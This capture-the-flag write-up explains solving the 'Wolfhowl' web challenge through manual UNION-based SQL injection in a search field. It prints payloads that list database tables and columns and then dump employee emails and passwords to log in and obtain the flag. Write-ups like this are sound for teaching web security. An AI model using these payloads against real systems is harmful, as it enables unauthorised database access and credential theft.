 # Wolfhowl
> Log into WolfHowl to get the flag

## About the Challenge
We are given a website and has multiple functionalities such as search feature, login and register user (But in this case, this feature has been disabled)

![preview](images/preview.png)

## How to Solve?
There is a SQL injection vulnerability in the search feature, but I couldn't use SQLMap to exploit it. Therefore, in this case, I resolved this challenge using a manual approach. First I find the table name first using this payload
```
" union select table_name,2,3,4 from information_schema.tables-- -
```

![table](images/table.png)

As you can see, there are many tables, but in this case, we will choose the `employee` table. Now, I would like to know the column names in the `employee` table

```
" union select concat(column_name),2,3,4 from information_schema.columns where table_name=0x656d706c6f796565-- -
```

![column](images/column.png)

Now, we need to extract the `email` and `password` columns, as we require the credentials to log in to the website.

```
" union select concat(email,password),2,3,4 from employee-- -
```

![data](images/data.png)

And then login using one of the credential that has been exposed using SQL injection payload to obtain the flag

![flag](images/flag.png)

```
flag{art_decorates_space_but_music_decorates_time}
```